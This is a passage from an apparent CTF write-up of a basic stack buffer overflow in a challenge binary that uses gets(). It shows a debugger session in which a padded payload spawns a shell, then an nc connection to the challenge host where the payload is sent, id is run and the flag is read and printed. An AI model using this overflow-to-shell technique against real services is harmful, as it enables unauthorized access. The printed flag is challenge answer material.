 ```shell
gef➤  r
[...]
can you pass me?
[...]
gef➤  n
Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAABBBB
process 67149 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "main" in current context.
$ id
[Detaching after vfork from child process 67345]
uid=1000(siunam) gid=1000(nam) groups=1000(nam),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)
$ 
```

Wait, what? We spawned a shell?

That being said, we successfully overflowed the EIP register to 4 B's (`42`).

**Now, we can `nc` to the challenge instance, and get the flag!**
```shell
┌[siunam♥earth]-(~/ctf/Incognito-4.0/pwn/babyFlow)-[2023.02.18|15:13:18(HKT)]
└> nc -nv  143.198.219.171 5000
(UNKNOWN) [143.198.219.171] 5000 (?) open
can you pass me?
AAAAAAAAAAAAAAAAAAAABBBB
whoami;hostname;id
ctf
1801b85e77d9
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
cat /home/ctf/flag
ictf{bf930bcd-6c10-4c05-bdd8-435db4b50cdb}
```

- **Flag: `ictf{bf930bcd-6c10-4c05-bdd8-435db4b50cdb}`**

# Conclusion

What we've learned:

1. Basic Stack Buffer Overflow Via `gets()` Function